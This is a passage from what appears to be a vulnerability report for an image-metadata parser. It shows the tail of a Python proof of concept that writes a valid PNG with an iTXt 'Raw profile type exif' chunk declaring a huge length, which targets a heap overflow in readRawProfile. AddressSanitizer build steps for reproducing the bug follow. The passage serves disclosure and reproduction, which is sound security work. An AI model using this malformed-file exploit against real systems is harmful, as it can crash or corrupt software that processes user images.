 ```python
def make_idat_empty():
    # small valid compressed block for IDAT
    comp = zlib.compress(b'')  # compressed empty data
    return make_chunk(b'IDAT', comp)

def make_iend():
    return make_chunk(b'IEND', b'')

def main():
    png_sig = b'\x89PNG\r\n\x1a\n'
    keyword = b'Raw profile type exif'  # exactly what parser checks for (21 bytes)
    # Build text payload expected by readRawProfile:
    # leading byte (ignored), newline, decimal-length, newline, hex-data
    leading = b'X'
    big_length = b'9999999999'   # ten 9s => 9_999_999_999
    hex_payload = b'deadbeef'    # actual hex data (short)
    text_payload = leading + b'\n' + big_length + b'\n' + hex_payload + b'\n'

    ihdr = make_ihdr(width=1, height=1, bit_depth=8, color_type=2)
    itxt = make_itxt(keyword, text_payload)
    idat = make_idat_empty()
    iend = make_iend()

    sys.stdout.buffer.write(png_sig + ihdr + itxt + idat + iend)

if __name__ == "__main__":
    main()
```

**Notes:**

* The PoC constructs a *valid PNG* (with IHDR and IDAT) because some parsers or libraries reject malformed PNGs and never call into the iTXt handling.
* Use the given `keyword` exactly (`Raw profile type exif`) so `parseChunkContent` will treat the iTXt as a raw Exif profile and call `readRawProfile`.

---

## 4) How to build, run, and detect the issue (recommended, reproducible steps)

### Recommended environment and build

* Use a clean checkout of a known tag/commit (e.g., `v0.28.5` or `v0.27.7`), not `main` if you want to test the unpatched code. Provide the SHA/tags you used to developers if they ask.
* On Linux (Ubuntu recommended for reproducibility).

**Build with AddressSanitizer** (highly recommended because ASAN will show heap-buffer-overflow, exact offset, and stack trace):

```bash
git checkout <tag-or-commit>
mkdir build && cd build
cmake .. -DCMAKE_BUILD_TYPE=Debug -DCMAKE_CXX_FLAGS="-fsanitize=address,undefined -fno-omit-frame-pointer -g"
make -j
```

